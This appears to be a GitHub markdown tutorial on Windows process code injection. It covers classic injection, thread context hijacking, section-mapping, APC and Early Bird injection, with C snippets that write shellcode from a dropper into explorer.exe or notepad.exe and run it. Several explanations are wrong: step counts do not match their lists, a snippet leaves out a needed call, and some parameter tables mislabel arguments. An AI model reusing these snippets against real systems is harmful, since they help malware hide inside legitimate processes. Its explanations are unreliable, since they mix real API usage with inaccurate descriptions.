


Code Injection

# "Classic" Code Injection
There are many other code injection techniques, the most basic being the "classic" method and several variations of the classic method. There are essentially three steps:

For example, we have created a dropper with shellcode inside and we want to run the shellcode in the `explorer.exe` process. In order to accomplish this via "Classic" code injection technique, there are two steps:
1.	Deliver the payload/shellcode to the remote process. This involves two steps:
	1. `VirtualAllocEx` - Allocates a new memory buffer and prepares for the shellcode.
	2. `WriteProcessMemory` - Write the shellcode into remote process
2.	Trigger the execution of the shellcode in the remote process. There are several methods:
	1. `CreateRemoteThread` - The most common API function for execution.
	2. `RtlCreateUserThrear` - Variation 1
	3. `NtCreateThreadEx` - Variation 2

The same code 

```c
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
	LPVOID pRemoteCode = NULL;
	HANDLE hThread = NULL;
	
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ); //allocates memory for shellcode
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL); //write to remote process memory
	hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, 0, NULL); // execute the remote code.
	
	if (hThread != NULL) {
			WaitForSingleObject(hThread, 500);
			CloseHandle(hThread);
			return 0;
	}
	return -1;
}
```
The code execution variations described earlier are implemented below:

**Variation 1**
```c
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteCode, 0, &hThread, &cid);
```
**Variation 2**
```c
pNtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProc, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, NULL, NULL, NULL, NULL, NULL);
```

# Thread Context Injection
Another method of triggering code execution in a remote process. Thread Context Injection allows one thread to manipulate the execution context of another thread. This means that a thread can modify the stack, register values, or other internal state of another thread.

There are four steps this approach:

1. We need a target process with atleast one threat running. 
2. We need to locate this thread in the remote process.
3. Once found we allocate and copy out shellcode into the remote process. We can use several techniques for that such as from classic technique - `VirtualAllocEx` and `WriteProcessMemory`.
4. We suspend the execution of the thread we found earlier. And change the context of the thread i.e change the instruction pointer register to point to our shellcode, so when the thread starts to execution again, it would jump to our shellcode.
5. Finally, we resume this thread. Note that in doing so, all the computation or data which thread was handling is lost after this step.

So, after injection, when shellcode completes the execution, the entire process might crash. This is becase the state of the thread is in an invalid causing the process to crash.

The below code explains the process:

1. Get a handle to the process
```c
pid = FindTarget("notepad.exe");
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,FALSE, (DWORD) pid);
```
2. Allocate memory in the remote process and write shellcode to this memory.
```c
hThread = FindThread(pid);
pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
```
3. Suspend the execution of the target thread we found earlier.
```c
SuspendThread(hThread);	
```
4. Extract all the context related to the thread, stored on `ctx`  object.
```c
ctx.ContextFlags = CONTEXT_FULL;
```
5. Set the EIP of the thread to the shellcode address. Note  EIP and RIP based on the architecture.
```c
#ifdef _M_IX86 
	ctx.Eip = (DWORD_PTR) pRemoteCode;
#else
	ctx.Rip = (DWORD_PTR) pRemoteCode;
#endif
```
6. Set the thread context
```c
SetThreadContext(hThread, &ctx);
```
7. Resume the thread
```c
ResumeThread(hThread);	
```

# MapView Code Injection
In the previous two methods, the shellcode was copied from our process location to a remote process location. In this method, we utilise IPC ( two process share a region of memory ) where the remote process has access to our shellcode.

The following steps are involved:

1. We create a new section in our local process. A section is bew region of memory in our own process.
2. To access this section, we need to create a view in our own process, we can access this region through the view.
3. The shellcode is copied to the section with using local view. 
4. We also create a remote view of that section in our target process. 
5. After this step, the remote process, say `explorer.exe` can access our shellcode via this remote view.
6. We execute the remote shellcode using any known triggering method we discussed thus far.

Lets look at the code below:

1. Create a memory section . The `NtCreateSection` function creates a new section object for a specified file mapping or executable image file, and 
returns a handle to the section object. 

```c
NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

|`&hSection`| A pointer to a variable that receives the handle to the new section object. The handle is returned by the function call and can be used to access the section object in subsequent operations.|
|`SECTION_ALL_ACCESS`| A mask that specifies the access rights for the new section object. In this case, the mask includes all possible access rights to the section object.|
|`NULL`| A pointer to an object that represents the file mapping or executable image file. In this case, no file mapping or image file is specified, so this argument is set to NULL|
|`(PLARGE_INTEGER) &payload_len`| A pointer to a LARGE_INTEGER structure that specifies the size of the section object, in bytes. In this case, the size is specified by the payload_len variable, which is cast to a LARGE_INTEGER structure.|
|`PAGE_EXECUTE_READWRITE`| A mask that specifies the memory protection for the section object. In this case, the mask specifies that the memory can be executed, read, and written|
|`SEC_COMMIT`| A mask that specifies the initial allocation of memory for the section object. In this case, the mask specifies that the memory should be committed when the section is created.|
|`NULL`| A pointer to an object that represents a view of the section object. In this case, no view is specified, so this argument is set to NULL.|

2. Create a local section view. The `NtMapViewOfSection` function is a native WinAPI function used to map a view of a section object into the address space of the calling process. The function takes several parameters:

```c
NtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *) &payload_len, ViewUnmap, NULL, PAGE_READWRITE);
```
	
|`hSection`| A handle to the section object to map.|
|`ProcessHandle`| A handle to the process into which the section should be mapped. In this case, |`GetCurrentProcess()`| is used to obtain the handle to the current process.|
|`BaseAddress`| A pointer to the local view base address. This parameter will receive the starting address of the mapped view in the address space of the calling process.|
|`ZeroBits`| The number of high-order address bits that must be zero in the base address of the section view. This is not used in this example and is set to NULL.|
|`CommitSize`| The size of the initially committed region of pages in the section view, in bytes. This is not used in this example and is set to NULL.|
|`SectionOffset`| A pointer to a variable that receives the offset of the view from the beginning of the section, in bytes. This is not used in this example and is set to NULL.|
|`ViewSize`| A pointer to a variable that specifies the size of the view, in bytes. In this example, payload_len is used as the view size.|
|`InheritDisposition`| The type of inheritance to be assigned to the mapped section. In this example, ViewUnmap is used to specify that the view will be unmapped when the process is terminated.|
|`AllocationType`| The type of allocation to be used for the pages in the section view. This is not used in this example and is set to NULL.|
|`PageProtection`|The protection to be assigned to the pages in the section view. In this example, PAGE_READWRITE is used to specify that the pages are readable and writable.|

3. Using `memcpy` move the payload to the section.
```c
memcpy(pLocalView, payload, payload_len);
```

4. Create a section view in the remote (target) process
```c
NtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *) &payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
```
This is the same function as described previously, with only the second parameter changed. In the earlier `GetCurrentProcess()` was used as it was local view, but this is a remote view, therefore `&pRemoteView` handle to the remote process.

5. Execute the payload. The `RtlCreateUserThread` function creates a thread in a target process and returns a handle to the newly created thread. Here's an explanation of each parameter in the function call:
```c
RtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
```

|`hProc`| A handle to the target process in which the new thread will be created.|
|`NULL`| This parameter is reserved for future use and should be set to NULL.|
|`FALSE`| This parameter specifies whether the new thread should inherit the security attributes of the calling thread. In this case, it is set to FALSE, which means the new thread will not inherit the security attributes.|
|`0`| This parameter is reserved for future use and should be set to 0.|
|`0`| This parameter is reserved for future use and should be set to 0.|
|`0`| This parameter is reserved for future use and should be set to 0.|
|`pRemoteView`| A pointer to the starting address of the code that the new thread will execute. This should be a pointer to a function in the target process.|
|`0`| This parameter is reserved for future use and should be set to 0.|
|`&hThread`| A pointer to a variable that will receive the handle to the newly created thread.|
|`&cid`| A pointer to a variable that will receive the client ID of the newly created thread. The client ID is a unique identifier for the thread that consists of a process ID and a thread ID.|

	
# Aysnc Procedure Call (APC) Injection 
Async Procedure Call (APC) injection is a technique used by malware or other malicious actors to execute arbitrary code in the context of a remote process. The technique involves the use of the QueueUserAPC function, which can be used to inject a user-defined function into the execution path of a target thread. For example, when a program invokes a function  such as opening a file browser instance which is time consuming operation, so the program is waiting for an operation to complete ( as its waiting for data from other process ). So the program instead of waiting for the data, it can request the system to add the current operation to the APC queue and the process can continue with some other operation. When data is ready, the system can alert the process and the continue its operations there.



1. Find a thread in a remote process.
2. Deliver our shellcode to the remote process
3. Call the function called `QueueAPC`. This function creates an APC object in the remote code and the system would put that in APC queue. Every thread in the process has its dedicated APC Qeuue. 
4. This is now a waiting stage ( wait&pray ) because the thread we are targetting need to enter an `alertable` state. This state is entered when our thread calls any of the following five functions.
	1. SleepEx()
	2. SignalobjectAndWait()
	3. MsgWaitForMultipleObjectsEx()
	4. WaitForMultipleObjectsEx()
	5. WaitForSingleObjectEx()
5. When one of these are called by the thread, then thread gets into alertable state. When this happens, the systems notifies the thread to  the pending object operation in the APC queue. The thread will reach out to the object, and object contains pointer to our shellcode.

Lets look at the code below:

```c
// perform payload injection
pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);

// execute the payload by adding async procedure call (APC) object to thread's APC queue
QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
```

The payload injection win32 APIs are familiar to us, however `QueueUserAPC` is new. The `QueueUserAPC` function is a Windows API function that allows you to queue a user-mode asynchronous procedure call (APC) object to a specified thread. An APC is a function that can be executed asynchronously in the context of a specific thread.

Here is the breakdown of the parameters passed to `QueueUserAPC` in the code:

|`(PAPCFUNC)pRemoteCode`| Pointer to the APC function to be executed in the context of the thread. In this case, the pRemoteCode variable is being cast to a `PAPCFUNC` type to ensure that it is compatible with the function pointer expected by QueueUserAPC. The `pRemoteCode` variable must be a valid pointer to a function that can be executed in the context of the target thread.|
|`hThread`| Handle to the thread to which the APC will be queued. This handle must have been opened with the `THREAD_SET_CONTEXT` access right to allow the APC function to execute in the thread's context.|
|`NULL`| Data pointer that can be passed to the APC function. This parameter is optional and can be used to pass data to the APC function.|


# Early Bird Injection
Unlike the previous code injection techniques we discussed, this one does not inject into an existing process, instead it creates a process in a suspended mode ( which means no execution ). This is followed by the code injection and then earlier discussed APC is called.

Lets look at the code below:
```c
CreateProcessA(0, "notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
```

|`0`|Pointer to the name of the module to be executed. In this case, the value 0 is passed, indicating that the module name is taken from the command line.|
|`notepad.exe`|Pointer to the command line string. In this case, the value "notepad.exe" is passed, indicating that the notepad.exe program should be executed.|
|`0`|Pointer to the process security attributes. In this case, the value 0 is passed, indicating that the process runs with default security.|
|`0`|Pointer to the thread security attributes. In this case, the value 0 is passed, indicating that the thread runs with default security.|
|`0`|Boolean flag indicating whether the handle inheritance for the new process is enabled or disabled. In this case, the value 0 is passed, indicating that handle inheritance is disabled.|
|`CREATE_SUSPENDED`|Flag indicating the creation flags for the new process. In this case, the value `CREATE_SUSPENDED` is passed, indicating that the new process should be created in a suspended state, allowing you to attach a debugger to the process before |it starts running.|
|`0`|Handle to the parent process. In this case, the value 0 is passed, indicating that the process has no parent process.|
|`0`|Pointer to the process environment block. In this case, the value 0 is passed, indicating that the process should inherit the environment block of the calling process.|
|`&si`|Pointer to the startup information for the new process. This parameter must be initialized before calling `CreateProcessA`. In this case, the address of a `STARTUPINFO` structure named si is passed.|
|`&pi`|Pointer to the process information for the new process. This structure is filled with information about the newly created process. In this case, the address of a `PROCESS_INFORMATION` structure named pi is passed.|

Rest of the code remains the same:

```c
pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
WriteProcessMemory(pi.hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
QueueUserAPC((PAPCFUNC)pRemoteCode, pi.hThread, NULL);
ResumeThread(pi.hThread);
```

We see the new thread allocated and the code was found in the `notepad.exe` process. 



An interesting point to note is that `notpad.exe` is never spawned and therefore no Windows is visible on the windows.